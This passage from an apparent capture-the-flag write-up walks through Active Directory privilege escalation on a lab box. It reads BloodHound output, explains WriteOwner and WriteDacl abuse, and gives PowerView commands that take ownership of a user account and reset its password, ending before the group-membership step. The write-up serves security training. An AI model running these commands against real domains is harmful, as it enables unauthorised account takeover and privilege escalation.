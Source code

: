 It seems that `tom` has `WriteOwner` rights over `claire`. Let's properly open the `csv` file and do some digging. We are currently able to get a shell in the context of `nico` and `tom`. If we filter the `PrincipalName` column for those two accounts, four relationships stand out.

<figure><img src="../../.gitbook/assets/reel_excel_rights.png" alt=""><figcaption></figcaption></figure>

It seems that there are two identical attack paths involving the non-default `Backup_Admins` group:

1. `nico` has `WriteOwner` over `herman` who has `WriteDacl` over `Backup_Admins`.
2. `tom` has `WriteOwner` over `claire` who has `WriteDacl` over `Backup_Admins`.

As explained [here](https://adsecurity.org/?p=3658):

* **WriteOwner**: _Provides the ability to take ownership of an object. The owner of an object can gain full control rights on the object. The right to assume ownership of the object. The user must be an object trustee. The user cannot transfer the ownership to other users._
* **WriteDACL**: _Provides the ability to modify security on an object which can lead to Full Control of the object. The right to modify the DACL in the object security descriptor._

Based on this information, we can formulate the following attack path:

1. Use `tom` 's `WriteOnwer` to change `claire`'s password.
2. Use `claire` 's `WriteDacl` to add herself into `Backup_Admins`group.

### Escalating Privileges

We can use PowerView to execute our plan, since it is already within the `BloodHound` directory.

{% hint style="danger" %}
It seems that the box reverts all changes every minute, so all steps must be performed in that timeframe.&#x20;
{% endhint %}

{% code overflow="wrap" %}
```bash
# launch PowerShell
PS C:\Users\tom\Desktop\AD Audit\BloodHound> powershell
# move the directory where PowerView script resides
PS C:\Users\tom\Desktop> cd '.\AD Audit\BloodHound\'
# import PowerView
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Import-Module .\PowerView.ps1
# make tom owner of claire
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
# assign tom the right to reset claire's password
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
# create a secure string
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $pass = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
# change claire's password
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword claire -AccountPassword $pass
```
{% endcode %}
